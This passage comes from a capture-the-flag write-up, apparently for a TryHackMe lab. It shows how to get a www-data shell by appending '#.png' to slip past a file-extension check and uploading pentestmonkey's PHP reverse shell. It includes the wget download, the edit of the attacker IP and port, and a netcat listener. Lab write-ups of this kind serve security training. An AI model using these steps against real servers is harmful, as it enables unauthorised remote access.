 ### **<strong><font color="DarkCyan">Shell as www-data:</font></strong>**

With that said, we need to bypass the file extension check in order to upload a [PHP reverse shell script](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) and eventually get a shell.
[HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload#bypass-file-extensions-checks) has an excellent checklist to follow when it comes to bypassing file extensions. After going through, literally the entire list, I managed to get a shell by uploading the `php-reverse-shell.php` script and appending `#.png` to the URL

#### **<strong><font color="MediumPurple">Steps to reproduce:</font></strong>**

1- First of all, download the [PHP script](https://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz) and extract the content of the archive:

```bash
$ wget http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz
$ tar xvf php-reverse-shell-1.0.tar.gz
```
2- cd into `php-reverse-shell-1.0` directory <br/>
3- Open `php-reverse-shell.php` file in a text editor. <br/>
4- Change the values of the `$ip` and `$port` variables with your `tun0` IP address and a port number of your choice, respectively, as shown below.<br/>

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/thm-dogcat/2023-04-28%2014_30_50-HACKING_MACHINE%20-%20VMware%20Workstation%2017%20Player%20(Non-commercial%20use%20only).png" alt="">
<center><i>php-reverse-shell.php</i></center>
<br/>

5- Start a netcat listener on the same port you specified in the PHP script: <br/>
```bash
$ nc -nlvp <PORT>
```
6-  Upload the PHP file, by entering the following URL in the *External URL* box, and append `#.png` to the URL: <br/>
```console
http://<Your_IP>/php-reverse-shell.php#.png
```
<br/>